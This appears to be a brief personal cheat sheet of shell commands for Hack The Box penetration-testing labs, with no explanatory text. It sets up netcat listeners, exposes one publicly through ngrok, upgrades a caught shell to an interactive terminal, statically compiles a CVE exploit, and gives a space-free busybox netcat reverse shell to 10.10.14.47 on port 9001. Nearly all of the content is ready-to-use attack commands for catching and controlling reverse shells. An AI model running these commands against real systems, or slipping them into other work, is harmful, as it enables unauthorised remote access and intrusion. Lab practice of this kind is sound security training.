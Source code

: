 ### start a listener
```sh
nc -lvnp 4444
```

### Start a listener on public IP
```sh
nc -lnvp 9999
ngrok tcp 9999
```


### get nice shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")' 
export TERM=xterm 

CTRL+z 

stty raw -echo;fg
```

#### Compile on wsl to be used on htb machine
```sh
gcc -static cve.c -o cve
```

### Reverse shell without spaces
```sh
{busybox,nc,10.10.14.47,9001,-e,sh}
```
